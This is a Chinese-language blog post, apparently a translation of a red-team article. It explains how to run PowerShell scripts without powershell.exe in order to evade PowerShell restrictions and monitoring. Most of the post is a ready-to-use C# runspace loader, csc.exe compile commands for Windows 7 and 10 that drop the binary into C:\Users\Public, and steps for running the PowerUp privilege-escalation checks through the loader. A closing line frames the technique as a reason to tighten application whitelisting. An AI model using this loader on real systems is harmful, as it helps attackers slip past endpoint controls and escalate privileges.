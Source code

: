 ```yaml
---
date: 2025-08-05T18:36:43+08:00
title: 绕过PowerShell限制的简化方案
tags: [PowerShell, 应用白名单, 绕过限制]
authors: qife
description: 本文介绍了一种简单的方法来绕过PowerShell使用限制和监控，通过编译C#代码执行PowerShell脚本，适用于受限制环境下的脚本运行需求。
---
```


# PowerShell w/o PowerShell 简化版

作者：Brian Fehrman

在之前的文章《PowerShell without PowerShell》中，我们展示了如何绕过应用白名单软件（AWS）、PowerShell限制/监控以及命令提示符限制。某些情况下，您可能只需要绕过PowerShell限制和/或监控。本文为这种场景提供了一个简单的解决方案。该方法并非首创，但本文尝试以简明直接的方式呈现。

## 代码（prog.cs）

```csharp
//用法：prog.exe "powershell脚本路径"
using System;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;

public class Program
{
    public static void Main(string[] args)
    {
        Mycode.Exec(args[0]);
    }
}

public class Mycode
{
    public static void Exec(string file)
    {
        string command = System.IO.File.ReadAllText(file);
        RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
        Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
        rspace.Open();
        Pipeline pipeline = rspace.CreatePipeline();
        pipeline.Commands.AddScript(command);
        pipeline.Invoke();
    }
}
```

## 编译方法

**Windows 7 x64**
```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /r:C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:C:\Users\Public\prog.exe C:\Users\Public\prog.cs
```

**Windows 7 x86**
```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /r:C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:C:\Users\Public\prog.exe C:\Users\Public\prog.cs
```

**Windows 10 x64**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:C:\Users\Public\prog.exe C:\Users\Public\prog.cs
```

**Windows 10 x86**
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:C:\Users\Public\prog.exe C:\Users\Public\prog.cs
```

## 使用方法

1. 创建文件`C:\Users\Public\code.cs`，将上述代码复制到该文件中
2. 打开Windows命令提示符，根据您的操作系统复制粘贴对应的编译命令
3. 在要运行的PowerShell脚本底部添加您通常用于运行脚本的函数调用。例如，如果要运行PowerUp.ps1中的`Invoke-AllChecks`，通常这样写：
   ```powershell
   Invoke-AllChecks -Verbose | Out-File C:\Users\Public\allchecks.txt
   ```
   使用本程序时，您需要将此命令复制并粘贴到PowerUp.ps1文件的底部

4. 从Windows命令提示符运行以下命令：
   ```
   C:\Users\Public\prog.exe C:\Users\Public\PowerUp.ps1
   ```
   注意将`C:\Users\Public\PowerUp.ps1`替换为您要运行的PowerShell脚本名称

## 结论

这篇简短（希望也简单）的文章提供了一个快速解决方案，用于在PowerShell使用受限和/或被监控的环境中执行PowerShell脚本。这种方法为企业应考虑在其环境中实施更严格的AWS策略提供了额外理由。
